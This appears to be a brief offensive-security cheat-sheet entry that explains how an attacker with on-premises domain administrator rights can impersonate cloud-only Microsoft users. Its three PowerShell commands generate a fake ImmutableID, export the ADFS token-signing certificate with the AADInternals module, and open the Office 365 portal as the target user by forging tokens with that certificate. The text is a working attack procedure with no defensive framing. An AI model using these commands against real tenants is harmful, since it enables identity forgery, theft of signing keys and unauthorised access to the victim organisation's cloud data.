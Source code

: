 ### With DA privileges on-prem, it is possible to create ImmutableID of cloud only users

#### Create a realistic ImmutableID

```powershell
[System.Convert]::ToBase64String((New-Guid).tobytearray())
```

#### Export the token signing certificate

```powershell
Import-Module .\AADInternals.psd1
Export-AADIntADFSSigningCertificate
```

#### Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified

```powershell
Open-AADIntOffice365Portal -ImmutableID <IMMUTABLE ID> -Issuer <DOMAIN>/adfs/services/trust -PfxFileName <PATH TO .pfx FILE> -Verbose
```
